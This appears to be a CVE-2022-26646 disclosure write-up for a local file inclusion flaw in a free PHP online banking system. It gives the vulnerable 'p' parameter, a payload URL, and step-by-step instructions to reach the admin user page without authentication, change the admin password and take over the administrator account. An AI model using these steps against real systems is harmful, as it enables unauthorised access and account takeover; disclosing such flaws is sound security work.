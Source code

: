 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "p" includes files. An unauthenticated user can read internal php files of the web. LFI to Privilege Escalation
-   Null session account to admin
-   Payload used: `http://web.com/banking/?p=<any_phpfile>`

### **Steps to reproduce:**

- 1- Go to home page [http://localhost/banking/?p=about](http://localhost/banking/?p=about)

![nullsession](https://user-images.githubusercontent.com/47476901/160772671-238ab371-036f-4763-aac5-f2d59aca42ad.png)

- 2- Load the admin user page [http://localhost/banking/?p=admin/user/index](http://localhost/banking/?p=admin/user/index)

![adminpage](https://user-images.githubusercontent.com/47476901/160772705-978e6fc1-a2b5-439a-85f2-cd2959267bf4.png)


- 3- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 4- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 5- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![infophp](https://user-images.githubusercontent.com/47476901/160773672-89489f95-973e-490c-b331-a36128103ef0.PNG)

